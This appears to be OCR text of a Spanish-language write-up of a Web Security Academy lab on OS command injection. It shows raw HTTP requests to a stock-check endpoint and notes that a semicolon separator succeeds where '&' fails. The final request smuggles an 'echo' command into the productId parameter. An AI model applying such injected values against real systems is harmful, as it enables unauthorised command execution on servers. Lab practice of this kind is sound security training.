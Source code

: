 ```python
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a44009d04476521832ac97500f6006a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a44009d04476521832ac97500f6006a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9,en;q=0.8

productId=1&storeId=1







Y NOS DEVOLVIO ASI LA CANTIDAD DE ITEMS DE PROCTOS NORMAL.







AHORA INTENTAMOS CARGAR INYECCIOND E COMANDOS DENTRO DE LOSPARAMETROS DED PROCTID Y STOREID SEPARANDOLOS CON AMPERSON & , Y NO FUNCIONO ASI, PERO SI SE TENZO USANDO PUNTO Y COMA ; LOGRANDO LA EJECUCION DE COMANDOS INYECTADOS ATARABES DE ESTA FUNCION VULNERABLES:





REQUEST CON SOLO UNA IMPRESION PARA COMPROBAR:



POST /product/stock HTTP/2
Host: 0a44009d04476521832ac97500f6006a.web-security-academy.net
Cookie: session=FQNrB0YT17TwxZmkQudFdRcKPfcMaqqb
Content-Length: 32
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a44009d04476521832ac97500f6006a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a44009d04476521832ac97500f6006a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9,en;q=0.8

productId=;echo P4IM0N&storeId=1


```